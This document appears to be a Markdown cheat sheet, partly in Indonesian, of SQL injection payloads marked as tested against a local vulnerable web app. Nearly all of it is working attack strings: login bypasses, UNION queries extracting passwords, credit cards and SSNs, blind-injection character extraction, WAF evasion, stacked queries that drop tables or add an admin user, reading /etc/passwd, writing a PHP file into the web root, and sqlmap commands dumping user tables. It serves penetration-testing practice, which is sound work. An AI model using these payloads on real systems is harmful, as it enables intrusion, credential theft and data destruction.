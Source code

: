 # SQL Injection Payloads untuk Testing

## Authentication Bypass Payloads (✅ TESTED)

### Basic OR Injection (WORKING)
```
admin' OR '1'='1' -- 
admin' OR 1=1 -- 
' OR 1=1 -- 
" OR 1=1 -- 
admin' OR 'a'='a' -- 
' OR 'x'='x' -- 
```

**Important:** Space after `--` is required in MySQL!

### Comment-based Bypass
```
admin'/*
admin'#
admin'--
```

### Boolean-based Bypass
```
admin') OR ('1'='1
admin') OR ('a'='a') --
```

## Union-based Injection (✅ TESTED)

### Column Discovery (WORKING - 6 columns detected)
```
' UNION SELECT 1 -- 
' UNION SELECT 1,2 -- 
' UNION SELECT 1,2,3 -- 
' UNION SELECT 1,2,3,4 -- 
' UNION SELECT 1,2,3,4,5 -- 
' UNION SELECT 1,2,3,4,5,6 -- 
```

### Information Gathering (✅ VERIFIED)
```
' UNION SELECT 1,database(),user(),version(),5,6 -- 
' UNION SELECT 1,@@hostname,@@datadir,@@version,5,6 -- 
' UNION SELECT 1,schema_name,3,4,5,6 FROM information_schema.schemata -- 
```

### Data Extraction (⚠️ DANGEROUS - TESTED)
```
' UNION SELECT 1,secret_info,credit_card,ssn,5,6 FROM sensitive_data -- 
' UNION SELECT 1,username,password,email,5,6 FROM users -- 
' UNION SELECT 1,CONCAT(username,':',password),email,role,5,6 FROM users -- 
```

## Error-based Injection

### MySQL Error-based
```
' AND extractvalue(1,concat(0x5c,database())) --
' AND updatexml(1,concat(0x5c,database()),1) --
' AND (SELECT * FROM (SELECT COUNT(*),CONCAT(database(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a) --
```

## Time-based Blind Injection

### MySQL Time-based
```
' AND SLEEP(5) --
' AND (SELECT SLEEP(5)) --
' AND IF(1=1,SLEEP(5),0) --
' AND IF((SELECT COUNT(*) FROM users)>0,SLEEP(5),0) --
```

### Conditional Time-based
```
' AND IF((SELECT SUBSTR(database(),1,1))='v',SLEEP(5),0) --
' AND IF((SELECT SUBSTR(password,1,1) FROM users WHERE username='admin')='a',SLEEP(5),0) --
```

## Boolean-based Blind Injection

### Basic Boolean Tests
```
' AND 1=1 --
' AND 1=2 --
' AND (SELECT COUNT(*) FROM users)>0 --
' AND (SELECT COUNT(*) FROM users)>10 --
```

### Character-by-character Extraction
```
' AND (SELECT SUBSTR(database(),1,1))='v' --
' AND (SELECT SUBSTR(database(),2,1))='u' --
' AND (SELECT LENGTH(database()))=13 --
```

### Password Extraction
```
' AND (SELECT SUBSTR(password,1,1) FROM users WHERE username='admin')='a' --
' AND (SELECT LENGTH(password) FROM users WHERE username='admin')>5 --
```

## Advanced Payloads

### WAF Bypass
```
admin'/**/OR/**/1=1/**/--
admin'/**/UNION/**/SELECT/**/1,2,3,4/**/--
admin' OR 'x'='x
admin' %41%4E%44 1=1 --
admin' /*!OR*/ 1=1 --
```

### Alternative Operators
```
admin' || 1=1 --
admin' && 1=1 --
admin' | 1 --
admin' & 1 --
```

### Case Variations
```
admin' oR 1=1 --
admin' Or 1=1 --
admin' OR 1=1 --
admin' UnIoN sElEcT 1,2,3,4 --
```

### Encoding Variations
```
admin%27%20OR%201=1%20--
admin' OR 1=1 %23
admin' OR 1=1 %2D%2D
```

## Second-order Injection Payloads

### Registration Payloads
```
username: admin'--
username: admin' OR 1=1--
username: '; DROP TABLE users; --
```

## File System Access (MySQL)

### File Reading
```
' UNION SELECT 1,LOAD_FILE('/etc/passwd'),3,4 --
' UNION SELECT 1,LOAD_FILE('c:\\windows\\system32\\drivers\\etc\\hosts'),3,4 --
```

### File Writing
```
' UNION SELECT 1,'<?php phpinfo(); ?>',3,4 INTO OUTFILE '/var/www/html/info.php' --
```

## Stacked Queries (jika didukung)

### Multiple Statements
```
admin'; INSERT INTO users VALUES (999,'hacker','hacked','hacker@evil.com','admin'); --
admin'; UPDATE users SET password='hacked' WHERE username='admin'; --
admin'; DROP TABLE sensitive_data; --
```

## Tips untuk Testing

1. **Start Simple**: Mulai dengan payload sederhana seperti `' OR 1=1 --`
2. **Test All Fields**: Coba semua input field, tidak hanya username/password
3. **Check Responses**: Perhatikan perbedaan response untuk menentukan vulnerability
4. **Use Tools**: Gunakan tools seperti SQLmap untuk automated testing
5. **Document Findings**: Catat semua payload yang berhasil untuk reporting

## SQLmap Examples

### Basic Detection
```bash
sqlmap -u "http://localhost:8080" --data="username=admin&password=admin"
```

### Database Enumeration
```bash
sqlmap -u "http://localhost:8080" --data="username=admin&password=admin" --dbs
```

### Table Enumeration
```bash
sqlmap -u "http://localhost:8080" --data="username=admin&password=admin" -D vulnerable_app --tables
```

### Data Extraction
```bash
sqlmap -u "http://localhost:8080" --data="username=admin&password=admin" -D vulnerable_app -T users --dump
```

---

**⚠️ Reminder**: Gunakan payloads ini hanya untuk testing pada environment yang Anda miliki atau memiliki izin explicit untuk testing!
